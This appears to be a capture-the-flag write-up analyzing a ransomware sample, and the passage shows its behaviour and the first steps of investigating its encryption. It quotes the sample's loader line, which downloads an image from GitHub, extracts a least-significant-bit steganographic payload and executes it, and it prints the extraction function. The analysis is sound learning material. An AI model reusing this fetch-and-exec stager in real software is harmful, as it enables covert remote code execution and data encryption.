 ```python
    exec(base64.b64decode(
        extract(
            dwnld("https://raw.githubusercontent.com/florian-dalwigk/duck/main/mandarin.png"))))
```
---
<br />

## Analyzing behavior

* at the first view of the function `main` we see the previous code goes to a github Repository and tries to download a picture `mandarin.png` 

* If we run `ransomware.py` and there is no `flag.png` in the `current working directory`, we expect an error.
<br />

Create an `flag.png` file with the following command:
```bash
touch flag.png 
```

* Run `ransomware.py` again

* Now the code runs perfectly without errors, but what happened?


Look in your `current working directory` with the following command:
```bash
ls -la
```

* You will now see that nothing happened, are you sure?

* The `flag.png.encrypted` was overwritten by the program, which means that the `ransomware.py` encrypts data (damn)
  
* How can we decrypt our data let's investigate it
---
<br />

## Investigation of the code


* first question: What kind of encryption technique does `ransomware.py` use?

Let's look at the following function:
```python
def extract(img):
    s = ""
    for x in range(img.shape[0]):
        for y in range(img.shape[1]):
            b, g, r = img[x, y]
            s += bin(b)[-1]
            s += bin(g)[-1]
            s += bin(r)[-1]
    result = s2t(s)
    return result[:result.index('#')]
```
